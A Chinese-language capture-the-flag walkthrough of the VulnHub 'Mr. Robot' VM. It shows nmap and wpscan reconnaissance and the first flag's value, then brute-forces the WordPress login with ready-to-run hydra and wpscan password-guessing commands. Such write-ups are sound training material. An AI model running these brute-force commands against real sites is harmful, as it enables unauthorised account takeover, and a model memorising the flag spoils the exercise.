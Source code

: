 <center>Mr.Robot</center>





[toc]









## Mr.Robot

> Mr.Robot. [vulnhub](https://www.vulnhub.com/entry/mr-robot-1,151/)





> Description: 

```shell
Based on the show, Mr. Robot.

This VM has three keys hidden in different locations. Your goal is to find all three. Each key is progressively difficult to find.

The VM isn't too difficult. There isn't any advanced exploitation or reverse engineering. The level is considered beginner-intermediate.
```





### 1. 信息收集

```shell
# 扫描网段
nmap -sP 172.16.168.128/24

MAC Address: 00:50:56:FC:66:6C (VMware)
Nmap scan report for 172.16.168.136

nmap 172.16.168.136 -A

PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 00:0C:29:A7:2B:EF (VMware)
```

> 收集到 IP 和 Port

> `80`端口

```shell
# 非常炫酷的网站。
http://172.16.168.136/

# 插件查看是一个wordpress
wpscan --url http://172.16.168.136/ 

robots.txt found: http://172.16.168.136/robots.txt

# robots.txt 不能让爬虫爬去的文件
http://172.16.168.136/robots.txt

# 下载文件
fsocity.dic 密码
key-1-of-3.txt flag1
```

> `flag1`

```shell
073403c8a58a1f80d943455fb30724b9
```

> 密码文件：[去重](https://www.anttoolbox.com/zh/tools/txt-deduplication)  => [排序](https://sorttext.buyaocha.com/)





### 3. 爆破wp

```sheel
# 输入wp后台网址 打开burp抓包
http://172.16.168.136/wp-admin
```

> 账号爆破

![image-20241127102053747](./assets/image-20241127102053747.png)

> 用户名： `Elliot`

> 密码同上。

````shell
# 方法二

用户名
hydra -l Elliot -P pass.txt 172.16.168.136 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username' -t 64

密码
hydra -vV -l  elliot -P pass.txt 172.16.168.136 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'


# 方法三 去wpscan官网注册用户，获取apikey
wpscan --url http://172.16.168.136/ -U elliot -P pass.txt --api-token 注册的key
````

![image-20241127103512059](./assets/image-20241127103512059.png)

> 跑出来了。

> 登陆成功了。哈哈